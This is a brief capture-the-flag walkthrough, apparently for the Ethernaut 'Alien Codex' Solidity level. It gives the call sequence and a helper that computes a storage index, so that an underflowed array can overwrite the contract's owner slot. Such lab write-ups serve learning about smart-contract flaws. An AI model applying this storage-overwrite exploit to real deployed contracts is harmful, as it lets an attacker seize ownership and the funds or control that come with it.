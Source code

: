 # Alien Codex - Hack

1. Check the owner
2. Call `makeContract()`
3. Call `retract()`
4. Call `revise(35707666377435648211887908874984608119992236509074197713628505308453184860938,0x0000000000000000000000015B38Da6a701c568545dCfcB03FcB875f56beddC4)` where the first argument
   is calculated through `arrLocDiff(1)`:

```solidity
function arrLocDiff(uint256 slot) public pure returns (uint256) {
  return uint256(-1) - uint256(keccak256(abi.encodePacked(slot)));
}
```

and the second arument is the contract bool(1) and the new owner(5B38Da6a701c568545dCfcB03FcB875f56beddC4)

5. check the owner again, the new owner is `5B38Da6a701c568545dCfcB03FcB875f56beddC4`

We did it by overriding the memory at zero slot which is the location of the owner variable.
